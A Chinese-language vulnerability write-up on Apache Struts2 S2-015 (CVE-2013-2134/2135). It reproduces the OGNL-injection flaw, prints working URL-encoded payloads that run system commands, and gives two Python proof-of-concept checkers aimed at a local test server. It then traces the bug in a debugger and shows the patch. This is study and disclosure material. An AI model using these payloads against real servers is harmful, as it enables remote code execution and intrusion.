







# 目录

[前言](##前言)

[Struts简介](##Struts简介)

[漏洞复现](##漏洞复现)

[漏洞简介](###漏洞简介)

[环境搭建](###环境搭建)

[Payload](###Payload)

[POC](###POC)

[漏洞分析](##漏洞分析)

[漏洞修复](##漏洞修复)

[总结](##总结)

[参考](##参考)


## 前言

> 这是Struts系列第九篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-015漏洞,又名CVE-2013-2134漏洞/CVE-2013-2135漏洞.

> 这个漏洞有2种,第一种是:

&emsp;&emsp;&emsp;&emsp;在Struts2中没有对Action的名称没有进行转义和白名单检查所造成ognl表达式被解析,从而执行恶意代码.其中一个场景是当action的name配置为通配符时,可通过访问<ognl_expression>.action来传入ognl表达式,并在加载jsp文件时触发执行.漏洞原理跟S2-012类似,S2-012利用的重定向类型,S2-015利用的Action的名称.

> 第二种是:

&emsp;&emsp;&emsp;&emsp;当\\$和%字符组合使用时,ognl表达式会被TextParseUtil.translateVariables二次执行.

```java
<action name="Helloworld" class="org.test.HelloworldAction">
	<result name="success" type="httpheader">
		<param name="headers.foobar">\${message}</param>
	</result>
</action>
```

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-015)

#### 漏洞成因

> 这个漏洞有2种,第一种是:

&emsp;&emsp;&emsp;&emsp;在Struts2中没有对Action的名称没有进行转义和白名单检查所造成ognl表达式被解析,从而执行恶意代码.其中一个场景是当action的name配置为通配符时,可通过访问<ognl_expression>.action来传入ognl表达式,并在加载jsp文件时触发执行.漏洞原理跟S2-012类似,S2-012利用的重定向类型,S2-015利用的Action的名称.

> 第二种是:

&emsp;&emsp;&emsp;&emsp;当\\$和%字符组合使用时,ognl表达式会被TextParseUtil.translateVariables二次执行.

```java
<action name="Helloworld" class="org.test.HelloworldAction">
	<result name="success" type="httpheader">
		<param name="headers.foobar">\${message}</param>
	</result>
</action>
```

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.3.14.2

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 第一种执行命令

```java
%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField(%27allowStaticMethodAccess%27)%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec(%27whoami%27).getInputStream())%2C%23q%7D.action
```

#### 第二种执行命令

```java
%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField(%27allowStaticMethodAccess%27)%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec(%27whoami%27).getInputStream())%2C%23q%7D.action
```

### POC

```python
#!/usr/bin/env python3

import re
import urllib
import random
import string
import requests

class S2_015_1_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-015漏洞,又名CVE-2013-2134/CVE-2013-2135漏洞',
            'description': 'Struts2 S2-013漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.14.2',
            'date': '2013-06-03',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        self.capta = self.get_capta() 
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Connection': "keep-alive",
        }
        self.payload = '''/%24%7B%23context%5B'xwork.MethodAccessor.denyMethodExecution'%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess')%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec('{cmd}').getInputStream())%2C%23q%7D.action'''

    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

       
        try:
            check_url = self.url + self.payload.format(cmd = urllib.parse.quote('echo' + ' ' + self.capta))
            check_req = requests.get(check_url, headers = self.headers)
            if self.capta + '.jsp' in check_req.text.replace(' ', '').replace('\n', ''):
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_015 = S2_015_1_BaseVerify('http://localhost:8080/s2_015_war_exploded/Helloworld.action')
    print(S2_015.run())
```

```python
#!/usr/bin/env python3

import re
import random
import string
import requests

class S2_015_2_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-015漏洞,又名CVE-2013-2134/CVE-2013-2135漏洞',
            'description': 'Struts2 S2-013漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.14.2',
            'date': '2013-06-03',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/Helloworld.action'
        self.capta = self.get_capta() 
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Connection': "keep-alive",
        }
        self.payload = '''%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cmd_str').getInputStream()),#q}'''
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

       
        try:
            self.payload = self.payload.replace('cmd_str', 'echo' + ' ' + self.capta)
            self.payload = self.payload.encode('utf-8')
            self.payload = ''.join('%{:02X}'.format(x) for x in self.payload)
            check_url = self.url + '?message=' + self.payload
            check_req = requests.get(check_url, headers = self.headers)
            if 'foobar' in check_req.headers.keys() and self.capta in check_req.headers['foobar']:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_015 = S2_015_2_BaseVerify('http://localhost:8080/s2_015_war_exploded/')
    print(S2_015.run())
```

## 漏洞分析

首先Struts2的运行流程是


&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

具体分析过程:

&emsp;&emsp;&emsp;&emsp;1.由于第一种漏洞分析和S2-012的流程类似,就不分析了.分析下第2种方式.首先来看下配置文件,当\\$和%字符组合使用时,ognl表达式会被TextParseUtil.translateVariables二次执行.



&emsp;&emsp;&emsp;&emsp;2.在lib/xwork-core-2.2.3.jar/com/opensymphony/xwork2/DefaultActionInvocation.class:199打断点,这里已经是处理完所有拦截器,准备执行action,开启debug模式后发送payload会发现此处拦截到请求.



&emsp;&emsp;&emsp;&emsp;3.F8继续往下执行,F7进入executeResult方法



&emsp;&emsp;&emsp;&emsp;4.根据传送的参数,继续执行到303行,F7进入execute方法



&emsp;&emsp;&emsp;&emsp;5.根据传递的参数,执行到86行,又见到了老朋友translateVariables,F7进入该函数,根据传递的参数类型选择重载函数,最终仍是通过stack.findValue(var, asType)执行命令





&emsp;&emsp;&emsp;&emsp;6.对比下execute方法第86行和87行前后的结果,可见经过translateVariables方法后value的值从${message}变成了执行了id命令后的结果.




## 漏洞修复

> 第一种方式(2.3.14.3版本)的修复

```java
protected String allowedActionNames = "[a-z]*[A-Z]*[0-9]*[.\\-_!/]*";
protected String cleanupActionName(final String rawActionName) {
    if (rawActionName.matches(allowedActionNames)) {
        return rawActionName;
    } else {
        if (LOG.isWarnEnabled()) {
            LOG.warn("Action [#0] do not match allowed action names pattern [#1], cleaning it up!",
                rawActionName, allowedActionNames);
        }
        String cleanActionName = rawActionName;
        for(String chunk : rawActionName.split(allowedActionNames)) {
            cleanActionName = cleanActionName.replace(chunk, "");
        }
        if (LOG.isDebugEnabled()) {
            LOG.debug("Cleaned action name [#0]", cleanActionName);
        }
        return cleanActionName;
    }
}
```

> 对Action的名称做了白名单限制.


> 第2种方式(2.3.14.3版本)的修复

> for遍历的开头的int pos = 0;删除,pos计算方式改为

```java

pos = (left != null && left.length() > 0 ? left.length() - 1: 0) + (middle != null && middle.length() > 0 ? middle.length() - 1: 0) + 1;
```

> middle就是url的值,在递归的情况下,pos会是url的长度,indexof搜索会失败,从而loopCount + 1 导致递归深度验证失败

```java
int start = expression.indexOf(lookupChars, pos);
if (start == -1) {
    loopCount++;
    start = expression.indexOf(lookupChars);
}
```


## 总结

> ongl表达式好复杂,...translateVariables()这个方法太强了,大多数漏洞都与它有关.

> 在Struts 2.3.14.1-Struts 2.3.14.2的更新内容中,删除了SecurityMemberAccess类中的 setAllowStaticMethodAccess方法,所以2.3.14.2版本后不能直接通过#_memberAccess['allowStaticMethodAccess']=true来修改其值达到重获静态方法调用的能力.

可以用kxlzx提到的调用动态方法(new java.lang.ProcessBuilder('calc')).start()来解决,还可以借助Java反射机制去间接修改:

```java
#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)
```

> 相对应的payload如下:

```java
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

## 参考

> https://mp.weixin.qq.com/s/npm87uV1eIBHr0OexQFs1w

> https://blog.0kami.cn/2020/05/22/java-talk-about-struts2/

> https://cwiki.apache.org/confluence/display/WW/S2-015

> https://aluvion.gitee.io/2020/07/24/struts2%E7%B3%BB%E5%88%97%E6%BC%8F%E6%B4%9E-S2-015/

> https://github.com/vulhub/vulhub/blob/master/struts2/s2-015/README.zh-cn.md

